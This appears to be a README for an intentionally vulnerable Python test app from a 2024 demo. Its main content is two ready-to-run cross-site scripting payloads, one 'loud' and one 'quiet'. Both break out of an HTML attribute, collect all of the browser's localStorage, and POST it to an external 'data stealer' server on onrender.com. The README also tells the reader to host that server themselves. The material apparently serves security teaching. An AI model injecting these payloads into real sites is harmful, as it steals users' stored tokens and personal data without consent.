 # whathestack2024-vuln-python
Python vulnerable instance for testing


If you are running the quiet version you must deploy and run the rogue_data_stealer branch.
Make sure you replace the URL for the rogue data stealer below with the one you are hosting.

Loud Attack command - can be used with running rogue data stealer, or even without, since it renders the result on alert.
"><script>(function(){var d={};for(var i=0;i<localStorage.length;i++){var k=localStorage.key(i);d[k]=localStorage.getItem(k);}alert('Local Storage Data: '+JSON.stringify(d));fetch('https://wts2024-data-stealer.onrender.com/receive-data',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify(d)});})();</script>


Quiet Attack command must be run with active rogue data stealer. 
"><script>(function(){var d={};for(var i=0;i<localStorage.length;i++){var k=localStorage.key(i);d[k]=localStorage.getItem(k);}fetch('https://wts2024-data-stealer.onrender.com/receive-data',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify(d)});})();</script>